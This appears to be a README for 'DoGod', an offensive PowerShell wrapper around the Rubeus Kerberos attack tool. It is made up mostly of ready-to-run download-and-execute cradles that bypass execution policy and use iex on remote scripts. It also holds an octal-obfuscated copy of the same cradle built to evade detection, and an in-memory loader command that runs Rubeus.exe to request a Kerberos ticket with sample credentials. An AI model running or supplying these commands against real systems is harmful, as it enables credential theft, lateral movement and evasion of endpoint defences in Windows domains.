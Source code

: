 # DoGod
*Rubeus wrapped in PowerShell*

import-module ./DoGod.ps1 ---> Loads Rubeus

DoGod ---> Rubeus native help menu

Use Onscreen Instructions for DoGod syntax!

Way 1:
IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/DoGod/main/DoGod.ps1'))

IEX Obfuscated:

 -jOiN(( 123 , 145 ,164 ,55,105 , 170 ,145 ,143 ,165, 164 , 151 , 157, 156 ,120 , 157, 154, 151, 143 ,171,40 ,102 , 171, 160 ,141 , 163 , 163 , 40,55 ,123,143 , 157 ,160, 145,40 ,120 ,162 ,157 ,143 ,145 , 163,163,40, 55,106 , 157 ,162, 143 ,145,73 , 40 ,133,123,171,163 ,164 , 145 ,155, 56 ,116, 145,164 , 56, 123, 145, 162, 166 , 151 ,143,145,120,157, 151 , 156,164,115, 141,156, 141 , 147,145,162, 135 , 72,72 , 123, 145,143,165, 162 , 151,164, 171, 120, 162 ,157 ,164,157,143,157 ,154 ,40, 75 , 40 , 133 ,123 , 171 ,163 , 164, 145 , 155 , 56,116 ,145, 164, 56, 123 , 145 , 162 ,166 , 151 , 143 , 145,120 , 157 , 151,156,164, 115,141 , 156, 141 ,147,145, 162, 135, 72, 72, 123 , 145 ,143,165, 162,151 ,164, 171 , 120, 162 ,157, 164 , 157, 143, 157 , 154, 40, 55, 142 , 157 ,162 ,40 ,63 , 60 ,67,62 , 73,40 ,151 ,145, 170,40 ,50, 50,116,145, 167 , 55, 117 , 142, 152,145, 143,164, 40 , 123 , 171 ,163,164,145, 155, 56, 116 , 145, 164 ,56 , 127,145,142,103 , 154, 151, 145,156, 164,51,56,104 ,157 ,167 ,156,154 , 157 ,141,144,123 ,164 ,162, 151 , 156 ,147, 50 ,47 , 150,164 , 164 ,160,163, 72 , 57 ,57 , 162 , 141 , 167 ,56 , 147,151,164, 150 , 165, 142 ,165 ,163,145 ,162,143, 157, 156,164 ,145, 156 ,164,56, 143 , 157,155 , 57, 111 ,101, 115, 151, 156 , 132 ,157 ,150 ,157,57, 104 ,157 ,107, 157,144 , 57 ,155, 141,151 , 156,57 ,104 ,157 ,107 ,157, 144 , 56 , 160, 163 ,61 , 47 ,51, 51)| foREACH-objecT{( [CHAR] ( [ConvERt]::toINt16( ( $_.TosTRINg() ),8 ))) }) |&( $PshOme[21]+$PShOme[34]+'x')

Way 2 (for running updated version : v2.2.0):

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/OFFSEC-PowerShell/main/Invoke-Sharpcradle.ps1'))

Rubeus Commands:
Invoke-Sharpcradle -Uri https://raw.githubusercontent.com/IAMinZoho/DoGod/main/Rubeus.exe

or,

Invoke-Sharpcradle -Uri https://raw.githubusercontent.com/IAMinZoho/DoGod/main/Rubeus.exe -Argument1 asktgt /user:Bob /password:user@123


Rubeus.exe: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
